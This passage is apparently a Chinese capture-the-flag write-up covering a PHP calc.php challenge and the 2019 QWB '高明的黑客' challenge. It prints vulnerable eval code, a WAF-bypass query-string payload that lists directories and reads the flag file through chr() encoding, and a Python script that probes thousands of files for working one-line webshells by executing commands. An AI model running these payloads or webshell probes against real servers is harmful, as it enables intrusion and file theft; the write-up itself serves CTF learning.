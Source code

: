 可以发现有 `calc.php`，访问直接得到源码：

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = ['', '\t', '\r', '\n','\'','"','`','\[','\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/'. $blackitem .'/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo'.$str.';');
}
?>
```

绕过 php 黑名单本身不难，但是 waf 中会先进行一次 `encodeURIComponent`。这里用到的绕过 waf 技巧就是用 ` num` 参数而非 `num` 参数，这样做可以成功的原因在于 php 会尝试将传入的参数变为合法变量名，即 strip 掉首尾空格、加下划线等等，因此 ` num` 就会被处理成 `num`，成功进入 `else` 逻辑，剩下的就是绕黑名单了：

```
/calc.php?%20num=var_dump(scandir(chr(47)))
```

可以发现 flag 文件 `/f1agg`，同样方法读出即可：
```
/calc.php?%20num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

## [强网杯 2019] 高明的黑客
提供了 `www.tar.gz`，里面有 3000 + 个 php 文件，都含有类似一句话的部分，但是大多不能用。需要写脚本找到能用的一句话木马：


```py
import os
import re
import requests

filenames = os.listdir('/var/www/html/src')
pattern = re.compile(r"\$_[GEPOST]{3,4}\[.*\]")

for name in filenames:
    print(name)
    with open('/var/www/html/src/'+name,'r') as f:
        data = f.read()
    result = list(set(pattern.findall(data)))

    for ret in result:
        try:
            command = 'uname'
            flag = 'Linux'
            if 'GET' in ret:
                passwd = re.findall(r"'(.*)'",ret)[0]
                r = requests.get(url='http://localhost/'+ name +'?'+ passwd +'='+ command)
                if flag in r.text:
                    print('GET /{}?{}=cat /flag'.format(name,passwd))
                    break
            elif 'POST' in ret:
                passwd = re.findall(r"'(.*)'",ret)[0]
                r = requests.post(url='http://localhost/'+ name,data={passwd:command})
                if flag in r.text:
                    print('POST /{}?{}=cat /flag'.format(name,passwd))
                    break
        except:
```